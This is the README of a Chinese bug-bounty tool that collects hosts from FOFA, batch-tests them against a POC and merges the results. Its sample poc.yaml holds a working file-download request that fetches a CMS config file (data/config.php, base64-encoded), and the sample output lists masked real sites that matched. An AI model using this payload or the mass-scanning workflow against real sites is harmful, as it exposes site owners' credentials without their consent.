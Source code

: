 # k1scan

FOFA Get only host, POC Batch testing, merge&amp;dedup

为了刷公益 SRC 诞生的小工具

使用示例参考: <https://www.yuque.com/ky1in7/blog/cxe3d5>

## ⭐️ 主要功能

1. FOFA信息收集
   - 仅保留 host 字段, 保存为 txt 格式
2. POC 批量检测
   - 基于 poc.yaml 配置文件
   - 支持字段: method, path, timeout
3. 数据合并/去重
   - 对 results 文件夹内数据合并去重

## 🚀 快速开始

- **使用 FOFA 信息收集请检查 `api.yaml` 配置文件是否正确**

- **使用 POC 批量检测请检查 `poc.yaml` 配置文件是否正确**

### 1. 安装步骤

```bash
git clone https://github.com/ky1in7/k1scan.git ./k1scan
cd k1scan
python -m pip install -r requirements.txt
```

### 2. 配置文件

- api.yaml (FOFA信息收集)

```yaml
fofa_api:
  fofa_email: 填入fofa email
  fofa_key: 填入 fofa key
```

- poc.yaml (POC批量检测)

```yaml
request:
  # 请求方式 GET/POST
  method: get
  # 请求路径
  path: /do/job.php?job=download&url=ZGF0YS9jb25maWcucGg8
  # 超时时间
  timeout: 5
response:
  # 若存在漏洞响应包中包含的任意内容
  hit_content: <?php
```

### 3. 使用示例

```bash
> python main.py

[1] FOFA数据采集
[2] POC 批量检测
[3] 爱站-权重查询 (未实现)
[4] 数据合并/去重
```

参考 <https://www.yuque.com/ky1in7/blog/cxe3d5>

## 📌 补充说明

1. FOFA信息收集

```bash
python main.py

[1] FOFA数据采集
[2] POC 批量检测
[3] 爱站-权重查询 (未实现)
[4] 数据合并/去重

# 选择语句
请输入选项 1/2/3/4: 1
请输入 FOFA 规则语句: asd123
请求链接: [https://fofa.info/api/v1/search/all?email=***&key=***&qbase64=YXNkMTIz&fields=host&size=10000]
请求规则: [asd123]
共返回: [745] 条数据
# 是否保存 (默认为 N)
是否保存数据?[y/N]:y
=== 文件将保存为 txt 格式文件 ===
=== 数据类型为: <class 'list'> ===
# 选择语句 (结尾带不带 txt 都行)
请输入保存文件名称: fofa_search_xxx.txt
[Success] 保存成功, 文件路径: ./results/fofa_search_xxx.txt
```

2. POC 批量检测

```bash
python main.py

[1] FOFA数据采集
[2] POC 批量检测
[3] 爱站-权重查询
[4] 数据合并/去重

# 选择语句
请输入选项 1/2/3/4: 2
# 选择检测的 url 文件名称, 必须存放在 results 目录下
请将文件放在 results 目录下, 并输入文件名称: qibo.txt
=== [以下为命中结果] ===
http://www.*******.com
http://www.******.com
http://******.com
http://******
http://******
http://www.******.com
http://bf.******.cn
http://m.******.com
http://******.******.******.com
http://www.******.com
http://******
```

3. 数据合并/去重

其实暂时只完成了合并, 输入保存名称后执行自动合并 results 目录下的所有文件

```bash
# 统计所有原文件行数
> wc results/*
    7192    7192  144864 results/******1.txt
    4482    4482   89230 results/******2.txt
    4130    4130   91867 results/******3.txt
    3484    3484   76138 results/******4.txt
   19288   19288  402099 results/******_all.txt
     745     745   15316 results/******.txt
    2706    2706   58357 results/***.txt
      36      36     771 results/***_result.txt
       2       3      48 results/*****.txt
   42065   42066  878690 total

> python main.py

[1] FOFA数据采集
[2] POC 批量检测
[3] 爱站-权重查询 (未实现)
[4] 数据合并/去重

请输入选项 1/2/3/4: 4
将对 results 内所有结果进行排序去重
是否进行操作?[y/N]:y
输入保存的新文件名: :alll.txt
- 读取到 ['xxx.txt', 'xxxxx.txt', 'xxxxx.txt', 'xxxxx.txt', 'xxxxx.txt', 'xxxxx.txt', 'xxxx.txt', 'xxx.txt', 'xxxxxx.txt'], 共 [9] 个文件
写入成功, 文件路径为 [results/alll.txt], 共 41901 条结果

# 统计合并后文件行数
wc results/alll.txt
   42065   42065  878690 results/alll.txt
```

### 关于权重查询

太麻烦了, 暂时没时间写, 先搁置

手动查权重的两个站点
- <https://rank.chinaz.com/all>
- <https://www.aizhan.com/>

## 免责声明

> 维护网络安全，营造良好的网络环境，程序仅供参考学习，请勿使用文中技术于非法用途，使用者造成任何负面影响与本人无关。